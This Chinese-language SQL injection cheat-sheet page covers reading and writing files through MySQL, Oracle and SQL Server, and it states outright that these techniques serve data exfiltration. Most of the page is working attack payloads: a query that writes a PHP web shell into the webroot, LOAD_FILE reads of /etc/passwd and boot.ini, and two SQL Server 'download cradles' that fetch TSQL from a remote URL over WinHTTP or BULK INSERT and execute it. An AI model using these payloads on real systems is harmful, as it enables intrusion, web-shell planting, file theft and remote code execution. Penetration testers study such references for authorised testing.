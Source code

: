 ###  读写文件 {docsify-ignore-all}

读取和写入文件有助于数据收集和数据泄露。许多方法包括写入webroot，这可以执行webshell，或允许数据通过端口80/443被泄露。



#### MySQL


`*`需要特权用户

| 描述   |      语句     |  
|----------|:-------------:|
| 转储到文件  |      	SELECT * FROM mytable INTO dumpfile '/tmp/somefile'     |  
| 写入 PHP Shell 到文件  |      SELECT 'system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php'     |  
| 读文件  |      	SELECT LOAD_FILE('/etc/passwd')     |  
| 读取混淆的文件  |      SELECT LOAD_FILE(0x633A5C626F6F742E696E69)<br />reads c:\boot.ini     |  
| 文件权限   |      SELECT file\_priv FROM mysql.user WHERE user = 'netspi'<br />SELECT grantee, is\_grantable FROM information\_schema.user\_privileges WHERE privilege_type = 'file' AND grantee like '%netspi%'     |  


#### Oracle

有时可以使用[UTL_FILE](http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql)。检查以下是否为非null

```code
SELECT value FROM v$parameter2 WHERE name = 'utl\_file\_dir';
```

如果安装了[Java](http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql)（Oracle Express中不可用），可用于读取和写入文件。

#### SQL Server

`*`需要特权用户


| 描述   |      语句     |  
|----------|:-------------:|
| 在服务器中下载Cradle bulk - TSQL   |      \-\- Bulk Insert - Download Cradle Example<br />\-\- Setup variables Declare @cmd varchar(8000)<br />\-\- Create temp table<br />CREATE TABLE #file (content nvarchar(4000));<br />\-\- Read file into temp table - web server must support propfind<br /><br />BULK INSERT #file FROM '\\sharepoint.acme.com@SSL\Path\to\file.txt';<br />\-\- Select contents of file<br /><br />SELECT @cmd = content FROM #file<br />\-\- Display command<br /><br />SELECT @cmd<br />\-\- Run command<br /><br />EXECUTE(@cmd)<br />\-\- Drop the temp table<br /><br />DROP TABLE #file     |  
| 下载Cradle OAP 1 - SQL   |      <br />\-\- OLE Automation Procedure - Download Cradle Example<br />\-\- Does not require a table, but can't handle larger payloads<br /><br />\-\- Note: This also works with unc paths \\\\ip\file.txt<br />\-\- Note: This also works with webdav paths \\ip@80\file.txt However, the target web server needs to support propfind.<br /><br />\-\- Setup Variables<br />DECLARE @url varchar(300)<br />DECLARE @WinHTTP int<br />DECLARE @handle int<br />DECLARE @Command varchar(8000<br /><br />\-\- Set target url containting TSQL<br />SET @url = 'http://127.0.0.1/mycmd.txt'<br /><br />\-\- Setup namespace<br />EXEC @handle=sp\_OACreate 'WinHttp.WinHttpRequest.5.1',@WinHTTP OUT<br /><br />\-\- Call the Open method to setup the HTTP request<br />EXEC @handle=sp\_OAMethod @WinHTTP, 'Open',NULL,'GET',@url,'false'<br /><br />\-\- Call the Send method to send the HTTP GET request<br />EXEC @handle=sp\_OAMethod @WinHTTP,'Send'<br /><br />\-\- Capture the HTTP response content<br />EXEC @handle=sp_OAGetProperty @WinHTTP,'ResponseText', @Command out<br /><br />\-\- Destroy the object<br />EXEC @handle=sp\_OADestroy @WinHTTP<br /><br />\-\- Display command<br />SELECT @Command<br /><br />\-\- Run command<br />EXECUTE (@Command)     |  
| 下载Cradle OAP 2 - TSQL  |      <br />\-\- OLE Automation Procedure - Download Cradle Example - Option 2<br />\-\- Can handle larger payloads, but requires a table<br /><br />\-\- Note: This also works with unc paths \\ip\file.txt<br />\-\- Note: This also works with webdav paths \\ip@80\file.txt However, the target web server needs to support propfind.<br /><br />\-\- Setup Variables<br />DECLARE @url varchar(300)<br />DECLARE @WinHTTP int<br />DECLARE @Handle int<br />DECLARE @Command varchar(8000)<br /><br />\-\- Set target url containting TSQL<br />SET @url = 'http://127.0.0.1/mycmd.txt'<br /><br />\-\- Create temp table to store downloaded string<br />CREATE TABLE #text(html text NULL)<br /><br />\-\- Setup namespace<br />EXEC @Handle=sp_OACreate 'WinHttp.WinHttpRequest.5.1',@WinHTTP OUT<br /><br />\-\- Call open method to configure HTTP request<br />EXEC @Handle=sp_OAMethod @WinHTTP, 'Open',NULL,'GET',@url,'false'<br /><br />\-\- Call Send method to send the HTTP request<br />EXEC @Handle=sp_OAMethod @WinHTTP,'Send'<br /><br />\-\- Capture the HTTP response content<br />INSERT #text(html)<br />EXEC @Handle=sp_OAGetProperty @WinHTTP,'ResponseText'<br /><br />\-\- Destroy the object<br />EXEC @Handle=sp_OADestroy @WinHTTP<br /><br />\-\- Display the commad<br />SELECT @Command = html from #text<br />SELECT @Command<br /><br />\-\- Run the command<br />EXECUTE (@Command)<br /><br />\-\- Remove temp table<br />DROP TABLE #text     |  
| 读取文件 - TSQL |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenDataSourceTxt.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenDataSourceTxt.sql)<br /> [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_BulkInsert.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_BulkInsert.sql)<br /> [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenDataSourceXlsx](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenDataSourceXlsx)<br />[https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetBulk.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetBulk.sql)<br />[https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetTxt.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetTxt.sql)<br /> [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetXlsx.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/readfile_OpenRowSetXlsx.sql)   |  
| 写文件 - TSQL   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_bulkinsert.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_bulkinsert.sql)<br />[https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_OpenRowSetTxt.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_OpenRowSetTxt.sql)     |  





